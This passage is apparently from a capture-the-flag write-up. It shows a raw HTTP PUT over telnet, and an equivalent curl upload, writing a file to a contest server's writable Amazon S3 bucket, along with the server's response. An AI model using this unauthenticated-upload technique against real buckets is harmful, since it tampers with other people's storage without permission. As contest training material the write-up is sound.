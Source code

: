 ```
$ telnet files.filer.sect.ctf.rocks 80
PUT /abc.txt HTTP/1.1
Host: files.filer.sect.ctf.rocks
Date: Sat, 10 Sep 2016 09:21:02 GMT
Content-Type: text/plain
Content-Length: 32

/files/flag.php
/files/flag.php

HTTP/1.1 200 OK
x-amz-id-2: 3GLe0t1bgnmvrVbZic0CAjd8x5mwPBJRR6stEJj+e6/7x+8tZe0jteImuhxukQKZJFa6z0yOnrY=
x-amz-request-id: 3F732267A35970EC
Date: Sat, 10 Sep 2016 09:21:26 GMT
ETag: "c1f1b2f47ed3ad9c7785dc233fcb1ce5"
Content-Length: 0
Server: AmazonS3
```

Alternatively we can use `curl` for uploading any file:
```
$ curl -s -H "Content-Type:text/plain"  http://files.filer.sect.ctf.rocks --upload-file abc.txt
```

References:

[https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html)
